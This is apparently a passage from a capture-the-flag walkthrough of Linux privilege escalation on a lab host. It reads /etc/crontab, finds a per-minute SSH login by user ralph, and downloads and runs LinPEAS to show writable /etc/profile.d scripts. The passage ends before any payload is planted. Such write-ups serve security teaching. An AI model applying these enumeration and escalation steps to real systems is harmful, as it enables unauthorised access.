 **View the contents of the system crontab to discover a script that runs as user "ralph" every minute:**

```bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	ralph	/home/ralph/tools/ssh.sh
```

**View the contents of the cron script to see that the user ralph is logging into the local system every minute when the cron job runs:**

```bash
cat /home/ralph/tools/ssh.sh
#!/bin/bash
/usr/bin/ssh -o "StrictHostKeyChecking no" ralph@localhost -i /home/ralph/.ssh/id_rsa
```

**Run [[LinPEAS]] and see that we have write access to** `/etc/profile.d`

```bash
...randy@ephemeral:/home/randy$ python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
<eleases/latest/download/linpeas.sh', 'linpeas.sh')"

randy@ephemeral:/home/randy$ bash linpeas.sh
...
╔══════════╣ Files (scripts) in /etc/profile.d/
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#profiles-files                                                                         
total 48                                                                                                                                                  
drwxr-xr-x   2 randy root  4096 Apr  9  2022 .
drwxr-xr-x 132 root  root 12288 Apr 10  2022 ..
-rw-r--r--   1 randy root    97 Apr  9  2022 01-locale-fix.sh
-rw-r--r--   1 randy root   835 Feb 18  2022 apps-bin-path.sh
-rw-r--r--   1 randy root   729 Feb  1  2020 bash_completion.sh
-rw-r--r--   1 randy root  1003 Aug 13  2019 cedilla-portuguese.sh
-rw-r--r--   1 randy root   349 Oct 28  2020 im-config_wayland.sh
-rw-r--r--   1 randy root  1368 Apr  9  2022 vte-2.91.sh
-rw-r--r--   1 randy root   967 Apr  9  2022 vte.csh
-rw-r--r--   1 randy root   954 Mar 26  2020 xdg_dirs_desktop_session.sh
You have write privileges over /etc/profile.d/
You have write privileges over /etc/profile.d/cedilla-portuguese.sh
/etc/profile.d/01-locale-fix.sh
```